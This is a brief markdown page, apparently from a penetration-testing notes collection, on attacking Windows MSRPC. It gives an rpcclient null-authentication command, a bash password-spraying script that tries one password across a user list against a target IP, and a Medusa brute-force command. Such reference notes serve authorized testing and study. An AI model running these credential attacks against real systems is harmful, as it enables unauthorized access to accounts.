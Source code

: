 # MSRPC

## 01 - Null Authentication

```
$ rpcclient -U "" [-p 593] -N <IP>
```

## 02 - Brute Force

### 2.1 - Automated Script

```bash
#!/bin/bash

while read -r username
do
    echo -n "[*] user: $username" && rpcclient -U "$username%$2" -c "getusername;quit" $3
done < "${1}"
```

Syntax as it follows.

```
$ chmod 755 password-spraying.sh

$ ./password-spraying.sh users.lst <password> <IP>
```

### 2.2 - Medusa

```
$ medusa -u <username> -p <password> -h <IP> -M msrpc
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Ports/Windows/MSRPC|Active Fingerprint: MSRPC]]